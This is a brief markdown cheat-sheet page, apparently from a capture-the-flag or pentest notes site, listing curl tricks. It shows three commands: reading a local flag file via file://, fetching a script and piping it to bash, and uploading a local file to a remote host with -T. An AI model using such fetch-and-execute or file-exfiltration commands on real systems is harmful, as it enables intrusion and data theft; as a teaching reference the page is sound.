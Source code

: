 ```yaml
---
layout: post
title: "curl"
keywords: "curl, lfi"
---
```

#### Read local file
curl does not support accessing file:// URL remotely

```
curl file:///flag.txt
```

#### Fetch and execute
```
curl http://127.0.0.1/script.sh | bash
```

#### Reverse upload file
This transfers the specified local file to the remote URL.

```
curl -T /flag.txt 127.0.0.1
```
